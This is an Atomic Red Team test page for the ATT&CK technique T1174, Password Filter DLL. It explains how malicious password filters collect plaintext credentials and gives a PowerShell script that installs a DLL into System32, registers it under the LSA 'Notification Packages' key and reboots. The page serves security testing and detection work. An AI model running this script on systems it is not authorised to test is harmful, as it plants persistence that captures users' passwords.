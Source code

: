 # T1174 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)
<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder\T1174\src\AtomicPasswordFilter.dll|


#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```



<br/>
